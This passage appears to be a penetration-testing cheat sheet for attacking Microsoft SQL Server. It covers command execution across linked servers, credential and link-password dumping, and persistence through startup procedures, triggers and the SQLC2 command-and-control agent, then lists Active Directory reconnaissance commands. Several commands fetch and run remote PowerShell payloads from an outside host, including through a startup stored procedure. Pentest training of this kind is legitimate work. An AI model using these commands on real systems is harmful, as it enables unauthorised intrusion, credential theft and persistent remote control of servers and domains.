	From the initial SQL server, OS commands can be executed using nested link queries (**remember to double nested single quotes for escaping**): 
	```sql
	-- HeidiSQL
	select * from openquery("SQLServer2",'select * from openquery("SQLServer3",''select * from openquery("SQLServer4",''''select @@version as version;exec master..xp_cmdshell "cmd /c calc.exe"'''')'')')
	```

- `PowerUpSQL`:	

	```powershell
	# Look for links to remote servers (public privs are enough)
	Get-SQLServerLink -Instance "SQLServer1" -Verbose

	# Enumerate database links. PowerUpSQL saves us from managing these pesky quotes: 
	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Verbose

	# Execute the query on each server along the link
	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Query "exec master..xp_cmdshell 'cmd /c calc.exe'" -Verbose
	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Query "exec master..xp_cmdshell 'cmd /c calc.exe'" -Verbose | select Instance,CustomQuery

	Get-SQLServerLinkCrawl -Instance "SQLServer1" -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.X:8080/InvokePowerShellTcpEx.ps1'')"'
	```

- `NetSPI Powershell Modules`:

	```powershell
	# Extracting passwords from MSSQL instances
	Import-Module .\Get-MSSQLCredentialPasswords.psm1
	Get-MSSQLCredentialPasswords

	# Extracting passwords from database links
	Import-Module .\Get-MSSQLLinkPasswords.psm1
	Get-MSSQLLinkPasswords

	# Extracting all MSSQL passwords
	Import-Module .\Get-MSSQLAllCredentials.psm1
	Get-MSSQLAllCredentials
	```

## Persistence


###  SQL Login PW Hash Dumping

```powershell
# PowerUpSQL
# Returns logins from target SQL Servers
Get-SQLServerPasswordHash -Verbose -Instance "SQLServer1\Instance1" | ft -AutoSize
```

### Startup Stored Procedures

```sql
-- HeidiSQL
-- Create a stored procedure (assuming xp_cmdshell is already enabled)
USE master 
GO
CREATE PROCEDURE sp_autops 
AS 
EXEC master..xp_cmdshell 'powershell -C "iex (new-object System.Net.WebClient).DownloadString(''http://webserver/payload.ps1'')"' 
GO

-- Mark the stored procedure for automatic execution 
EXEC sp_procoption @ProcName = 'sp_autops', @OptionName = 'startup', @OptionValue = 'on';

-- To list stored procedures marked for automatic execution 
SELECT [name] FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

Reference: 

- https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-procoption-transact-sql
- https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/

### Triggers

A trigger is a special kind of stored procedure that automatically executes when an event occurs in the SQL Server.

Reference: https://docs.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql

- DDL triggers:

	Reference: 
	- https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/implement-ddl-triggers
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups

- DML triggers:

	Reference: 
	- https://blog.netspi.com/maintaining-persistence-via-sql-server-part-2-triggers/
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/create-dml-triggers

- Logon triggers:

	Reference: 
	- https://docs.microsoft.com/en-us/sql/relational-databases/triggers/logon-triggers
 

### Registry

References:

- https://support.microsoft.com/en-us/help/887165/bug-you-may-receive-an-access-isdenied-error-message-when-a-query-cal
- https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/

### SQLC2

This is a csharp assembly; can be imported into SQL Server and used for basic post exploitation.

####  SQLC2 – Installing Server 

This functions creates the C2 SQL Server tables in the target database. If the database does not exist, the script will try to create it.

```powershell
# SQLC2
Install-SQLC2Server -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1'
``` 

####  SQLC2 – Installing PsAgent

This functions installs a C2 Agent on the target SQL Server by creating a server link to the C2 SQL Server, then it creates a TSQL SQL Agent job that uses the link to download commands from the C2 server and executes them. By default is execute OS command using xp_cmdshell. This requires sysadmin privileges on the target server. 

```powershell
# SQLC2
Install-SQLC2AgentPs -Verbose -Instance 'SQLServer1' -Database 'test1'
```

####  SQLC2 – Command & Control

View SQLC2 Agents:

```powershell
# SQLC2
Get-SQLC2Agent -Verbose -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1'
```

Set command to run on agent:

```powershell
# SQLC2
Set-SQLC2Command -Verbose -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1' -Command "Whoami" -ServerName "SQLServer1"
```

Get command results:

```powershell
# SQLC2
Set-SQLC2Command -Verbose -Username 'CloudAdmin' -Password 'CloudPassword!' -Instance 'cloudserver1.database.windows.net' -Database 'database1'
```

## Active Directory Enumeration

```powershell
# PowerUpSQL
# Provides the domain account policy for the SQL Server's domain.
Get-SQLDomainAccountPolicy
Get-SQLDomainAccountPolicy -Instance "SQLServer1\Instance1" -Verbose
Get-SQLDomainAccountPolicy -Instance "SQLServer1\Instance1" -Verbose -LinkUsername "domain\user" -LinkPassword "Password123!"
Get-SQLInstanceLocal | Get-SQLDomainAccountPolicy -Verbose
Get-SQLInstanceRemote | Get-SQLDomainAccountPolicy -Verbose

# Provides a list of the domain computers on the SQL Server's domain.
Get-SQLDomainComputer

# Provides a list of the domain controllers on the SQL Server's domain.
Get-SQLDomainController

# Provides a list of the potential exploitable computers on the SQL Server's domain based on Operating System version information.
Get-SQLDomainExploitableSystem

# Provides a list of the domain groups on the SQL Server's domain.
Get-SQLDomainGroup

# Provides a list of the domain group members on the SQL Server's domain.
Get-SQLDomainGroupMember

# Can be used to execute arbitrary LDAP queries on the SQL Server's domain.
Get-SQLDomainObject

# Provides a list of the organization units on the SQL Server's domain.
Get-SQLDomainOu

# Provides a list of the local administrator password on the SQL Server's domain. This typically required Domain Admin privileges.
Get-SQLDomainPasswordsLAPS

# Provides a list of sites.
Get-SQLDomainSite

# Provides a list of subnets.
Get-SQLDomainSubnet

# Provides a list of domain trusts.
Get-SQLDomainTrust

# Provides a list of the domain users on the SQL Server's domain.
Get-SQLDomainUser

# Provides a list of the disabled domain users on the SQL Server's domain.
Get-SQLDomainUser -UserState Disabled

# Provides a list of the enabled domain users on the SQL Server's domain.
Get-SQLDomainUser -UserState Enabled

# Provides a list of the locked domain users on the SQL Server's domain.
Get-SQLDomainUser -UserState Locked

# Provides a list of the domain users that do not require Kerberos preauthentication on the SQL Server's domain.
Get-SQLDomainUser -UserState PreAuthNotRequired

# This parameter can be used to list users that have not change their password in the last 90 days. Any number can be provided though.
Get-SQLDomainUser -UserState PwLastSet 90

# Provides a list of the domain users that never expire on the SQL Server's domain.
Get-SQLDomainUser -UserState PwNeverExpires

# Provides a list of the domain users with the PASSWD_NOTREQD flag set on the SQL Server's domain.
Get-SQLDomainUser -UserState PwNotRequired

# Provides a list of the domain users storing their password using reversible encryption on the SQL Server's domain.
Get-SQLDomainUser -UserState PwStoredRevEnc

# Provides a list of the domain users that require smart card for interactive login on the SQL Server's domain.
Get-SQLDomainUser -UserState SmartCardRequired

# Provides a list of the domain users trusted for delegation on the SQL Server's domain.
Get-SQLDomainUser -UserState TrustedForDelegation

# Provides a list of the domain users trusted to authenticate for delegation on the SQL Server's domain.
Get-SQLDomainUser -UserState TrustedToAuthForDelegation
```

## Tools

- [PowerUpSQL](https://github.com/netspi/PowerUpSQL)
- [SQLC2](https://github.com/NetSPI/SQLC2)
- [NetSPI Powershell-Modules](https://github.com/NetSPI/Powershell-Modules)
- [HeidiSQL](https://www.heidisql.com/)
- [Nishang](https://github.com/samratashok/nishang)

# References

- [PowerUpSQL Cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
- [Blindly discover SQL Server instances - PowerUpSQL](https://blog.netspi.com/blindly-discover-sql-server-instances-powerupsql/)
- [Enumerating domain accounts - PowerUpSQL](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domainaccounts/)
- [SQL database role members](https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-databaserole-members-transact-sql)
- [EXECUTE AS](https://docs.microsoft.com/en-us/sql/t-sql/statements/execute-as-transact-sql)
- [Hacking SQL Server stored procedures for user impersonation](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/)
- [Trustworthy database - 1](https://docs.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property)
- [Trustworthy database - 2](http://sqlity.net/en/1653/the-trustworthy-database-property-explained-part-1/)
- [Trustworthy database - 3](http://www.sqlservercentral.com/articles/Security/121178/)
- [XP_CMDSHELL](https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-throughsql-server)
- [Active Directory Recon functions](https://github.com/NetSPI/PowerUpSQL/wiki/Active-Directory-Recon-Functions)
- [SQL Linked Servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/linked-serversdatabase-engine)
- [Using SQL Server for attacking forest trusts](http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html)
- [Decrypting database link server passwords](https://blog.netspi.com/decrypting-mssql-database-link-server-passwords/)
---